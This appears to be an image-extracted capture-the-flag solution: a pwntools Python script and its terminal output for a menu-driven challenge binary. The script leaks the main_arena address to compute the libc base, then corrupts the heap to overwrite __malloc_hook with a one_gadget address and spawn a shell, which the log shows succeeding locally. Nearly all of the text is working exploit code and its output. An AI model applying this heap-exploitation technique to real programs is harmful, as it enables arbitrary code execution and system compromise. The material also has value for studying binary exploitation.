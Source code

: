 ```python
p.recvline()
addr_mainarena = u64(p.recv(6).ljust(8, "\x00")) - 96 # address of main_arena()
log.info("address of main_arena(): " + hex(addr_mainarena))
addr_libc = addr_mainarena - offset_mainarena # address of libc base
log.info("address of libc base: " + hex(addr_libc))
addr_mallochook = addr_libc + offset_mallochook # address of &__malloc_hook
log.info("address of malloc hook: " + hex(addr_mallochook))
addr_onegadget = addr_libc + offset_onegadget # address of one_gadget

BeSavior(13)
Join(2, p64(addr_mallochook)[1:]+"\n") # index: 14, Guitar 2
Join(6, "\n") # index: 15, Trumpet 2
Join(4, "A"*0x2f+p64(addr_onegadget)+"\n") # index: 16, Drummer 2

# Get shell
p.recvuntil(">\n")
p.sendline("2")
p.recvuntil(">\n")
p.sendline("6") # index: 17, Trumpet 3

p.interactive()
```

```bash
chykor12@ubuntu:~/CyKor$ python exploit_problem.py
[+] Starting local process './problem': pid 2569
[*] address of main_arena(): 0x7f89068f3c40
[*] address of libc base: 0x7f890670f000
[*] address of malloc hook: 0x7f89068f3c30
[*] address of one gadget: 0x7f8906815ef8
[*] Switching to interactive mode
leave the memo > $ whoami
chykor12
```


